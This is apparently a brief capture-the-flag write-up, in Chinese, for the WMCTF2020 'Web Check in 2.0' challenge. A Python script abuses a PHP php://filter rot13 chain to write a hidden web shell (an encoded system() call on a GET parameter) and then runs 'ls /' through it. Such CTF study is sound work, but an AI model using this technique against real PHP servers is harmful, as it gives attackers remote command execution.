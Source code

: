 title:: CTFWEB/WP/WMCTF2020 Web Check in 2.0

- tags:: CTFWEB/伪协议
- # 思路
	- 官方题解新姿势： ((64673efa-c544-4ad7-9b9b-920b148d0b26))
	- 其他思路：可以使用zlib压缩，然后string.tolower破坏字节流，然后再解压
- # payload生成
	- ```python
	  filename = random_chars()[:5] + ".php"
	  r = base_get(url, params = {
	    "content": "php://filter/" + enc_dec.full_urlencode("string.rot13") + "|" + enc_dec.urldecode("%3C%3Fcuc%0Aflfgrz%28%24_TRG%5Bqngn%5D%29%3B%0A%3F%3E") + "/resource=" + filename
	  }, acceptable_code=None)
	  r = base_get(url + "sandbox/f9e1016a5cec370aae6a18d438dabfa5/" + filename, params = {
	    "data": "ls /"
	  }, acceptable_code=[200, 500])
	  print(r.status_code)
	  print(r.text)
	  ```